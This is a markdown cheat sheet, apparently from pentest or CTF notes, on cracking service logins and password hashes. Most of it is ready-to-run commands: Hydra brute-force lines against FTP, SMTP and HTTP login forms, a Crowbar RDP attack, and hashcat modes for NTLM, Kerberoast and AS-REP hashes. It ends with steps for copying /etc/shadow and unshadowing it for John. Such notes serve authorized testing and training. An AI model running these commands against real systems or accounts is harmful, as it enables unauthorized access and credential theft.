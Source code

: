 # Cracking 
Cracking services logins and password files. 
## Contents
- [Cracking Resources](#cracking-resources)
  * [Contents](#contents)
  * [References](#references)
  * [Tools](#tools)
  * [Wordlists](#wordlists)
- [Cracking Services](#cracking-services)
  * [Default Credentials](#default-credentials)
  * [Hydra](#hydra)
  * [Burp Suite](#burp-suite)
  * [RDP with Crowbar](#rdp-with-crowbar)
  * [Misc Service Crackers](#misc-service-crackers)
- [Cracking Offline Passwords](#cracking-offline-passwords)
  * [Hashcat](#hashcat)
    + [Benchmark Test (Hash Type)](#benchmark-test--hash-type-)
    + [Show Example Hash](#show-example-hash)
    + [Dictionary Attack](#dictionary-attack)
    + [Mask Attack](#mask-attack)
    + [Increment](#increment)
    + [Cracking /etc/passwd $6](#cracking--etc-passwd--6)
    + [Cracking krb5ts Keys](#cracking-krb5ts-keys)
    + [Cracking Asrep keys](#cracking-asrep-keys)
  * [John](#john)

## References 
[Cracking the Hashes](https://zweilosec.gitbook.io/hackers-rest/os-agnostic/password-cracking/cracking-the-hashes)   

## Tools
Passwords, login pages, etc.
[Ciphey](https://github.com/Ciphey/Ciphey)  
[CyberChef](https://gchq.github.io/CyberChef/)  

## Wordlists   

[Seclists](https://github.com/danielmiessler/SecLists)   
[Have I Been Pwned Passwords](https://haveibeenpwned.com/Passwords)   
[Rainbow Crack, Rainbow Tables](http://project-rainbowcrack.com/table.htm)   
[Rocktastic Mega Wordlist](https://labs.nettitude.com/tools/rocktastic/)  
[berzerk0 wordlist](https://www.hack3r.com/forum-topic/wikipedia-wordlist)   
[Weakpass](https://www.hack3r.com/forum-topic/wikipedia-wordlist)   
Make your own wordlist: [Crunch](https://sourceforge.net/projects/crunch-wordlist/)  [Cewl](https://github.com/digininja/cewl)  

# Cracking Services   
## Default Credentials
    Check Web Enumeration checklist for default CMS creds
    https://cirt.net/passwords
    https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

## Hydra
[Brute Force Login Pages with Hydra](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)   
[Brute Forcing Services with Hydra](https://securitytutorials.co.uk/brute-forcing-passwords-with-thc-hydra/)  
ftp, ssh, rdp, http-post, http-get 

    hydra -l ftp -P passlist.txt ftp://10.10.x.x  
    hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v    
    hydra -e nsr -l username -P wordlist 10.10.10.10 service -s [port if not default]     
    -e nsr: tries no pass, same pass as usernames, passwords as backwords username  
http-get 

    hydra -L user.txt -P wordlist.txt 10.10.10.10 http-get /directory_path  
    hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f   
    
http-post

    intercept request in burp - see body. No response - :S=302    
    hydra 10.10.10.10 http-form-post "/index.php:user=admin&pass=^PASS^:INVALID LOGIN MSG" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f  
    
## Burp Suite 
[Brute forcing web login pages with intruder](https://portswigger.net/support/using-burp-to-brute-force-a-login-page)  
Look for change in status code or change in length of header
    
## RDP with Crowbar 

    crowbar -b rdp -s 10.10.10.10 -u admin -C rockyou.txt -n 1
    
## Misc Service Crackers  
wpscan: crack wordpress logins 
[pwn Jenkins](https://github.com/Scr1ptK1ddie/pwn_jenkins): crack Jenkins service  


# Cracking Offline Passwords  
[Identify Hash Type](https://www.tunnelsup.com/hash-analyzer/) 
[Crackstation](https://crackstation.net/): try first esp. with Windows hashes      
Then hashcat with: darkweb2017 lists from SecLists, then rockyou.txt. 

[Name That Hash](https://nth.skerritt.blog/)   
[Search that Hash](https://github.com/HashPals/Search-That-Hash)
 
    hash-identifier [hash]     


Large wordlist - use google colab projects: [colabcat](https://github.com/someshkar/colabcat) or [colabsth](https://github.com/vaishnavpardhi/colabsth/) 
 
 
## Hashcat 
[One rule to rule them all](https://github.com/NotSoSecure/password_cracking_rules)  

    hashcat -m [mode] hashes wordlist   
    
Quick Reference:   

    -a 0    #attack mode 0 for a wordlist attack should be good to crack most passwords      
    -m 1000   #NT (most Windows passwords)   
    -m 3000   #LANMAN (legacy Windows password hashes)    
    -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    -m 5600   #NTLMv2 (hashes captured from using a tool liek Responder)     


    
### Benchmark Test (Hash Type)

    hashcat -b -m #type
### Show Example Hash 

    hashcat -m #type --example-hashes
### Dictionary Attack

    hashcat -a 0 -m #type hash.txt dict.txt

DICTIONARY + RULES ATTACK

    hashcat -a 0 -m #type hash.txt wordlist.txt -r rule.txt  
    
    
COMBINATION ATTACK

    hashcat -a 1 -m #type hash.txt wordlist1.txt wordlist2.txt 
   
   
### Mask Attack

    hashcat -a 3 -m #type hash.txt ?a?a?a?a?a?a

HYBRID DICTIONARY + MASK

    hashcat -a 6 -m #type hash.txt wordlist.txt ?a?a?a?a

HYBRID MASK + DICTIONARY

    hashcat -a 7 -m #type hash.txt ?a?a?a?a wordlist.txt  
   

### Increment

Default Increment

    hashcat -a 3 -m #type hash.txt ?a?a?a?a?a --increment

Increment Minimum Length

    hashcat -a 3 -m #type hash.txt ?a?a?a?a?a --increment-min=4

Increment Max Lenth

    hashcat -a 3 -m #type hash.txt ?a?a?a?a?a?a --increment-max=5

Session Restore 

    hashcat -a 0 -m #type --restore --session <uniq_name> hash.txt wordlist.txt

### Cracking /etc/passwd $6 


### Cracking krb5ts Keys

    hashcat -m 13100 --force <TGSs_file> <passwords_file>

### Cracking Asrep keys

    hashcat -a 0 -m 18200 <asrep_file> <password_file> 

    
    

## John the Ripper    
John is easier to user then hashcat - but slower and not as flexible.   
Windows:  

    john --format=nt hash.txt    

Linux:    
- cp /etc/passwd and shadow
- unshadow passwd shadow 

